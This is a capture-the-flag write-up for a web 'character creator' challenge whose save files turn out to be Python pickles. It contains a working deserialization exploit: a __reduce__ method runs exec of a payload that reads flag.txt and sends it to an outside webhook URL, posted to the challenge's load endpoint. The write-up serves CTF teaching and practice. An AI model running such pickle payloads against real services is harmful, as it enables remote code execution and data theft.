

### Discovery

* We are given url to the site with a simple form.
* You can add new fields and assign values to them.
* You can `Save` the character, which downloads a file.
* You can `Load` the character from previously download file.

### Exploitation
* Looking at the downloaded file content:

```
cat character.backup
�c__main__
Character
q)�q}q(XNameqXNameqXAgeqX18qub.% 
```

* The content immediately looks like `Pickle`.
* `Pickle` library is vulnerable, because it calls `__reduce__` method of the object.
* Also in the HTML of the site there is a comment, which suggests that flag is located in `flag.txt` file.
* Our exploit can look like this:

```
import pickle
from io import BytesIO

import requests

WEBHOOK_URL = "https://webhook.site/71a7dc1c-28cd-4b5b-8c3a-db6d8d41f880"
CHALLENGE_URL = "https://character-creator.semanthon.com/load-character"


payload = f"from urllib.request import urlopen;urlopen('{WEBHOOK_URL}/'+open('flag.txt').readline())"


class Exploit:
    def __reduce__(self):
        return (exec, (payload,) )


buffer = BytesIO()
pickle.dump(Exploit(), buffer)
buffer.seek(0)
requests.post(CHALLENGE_URL, files={"file": buffer})
```

> This code will send our pickled exploit object to the server, which will call our prepared `__reduce__` method. This method will execute a request to our webhook, with content of `flag.txt` file as a parameter.
We will get a flag on our webhook server

